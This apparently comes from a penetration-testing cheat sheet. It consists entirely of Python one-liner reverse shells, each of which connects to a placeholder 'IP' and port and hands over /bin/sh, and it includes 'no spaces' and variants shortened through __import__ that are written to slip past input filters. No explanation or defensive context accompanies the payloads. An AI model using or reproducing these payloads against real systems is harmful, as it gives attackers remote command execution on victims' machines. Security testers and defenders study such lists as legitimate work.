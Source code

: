 ```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

```
python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

#### IPv4 (No Spaces)

```
python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

```
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

```
python -c 'a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("IP",port));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

```
python -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("IP",port));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```

```
python -c 'a=__import__;b=a("socket");c=a("subprocess").call;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("IP",port));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```

```
python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("IP",port));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

```
python -c 'a=__import__;b=a("socket").socket;p=a("subprocess").call;o=a("os").dup2;s=b();s.connect(("IP",port));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```
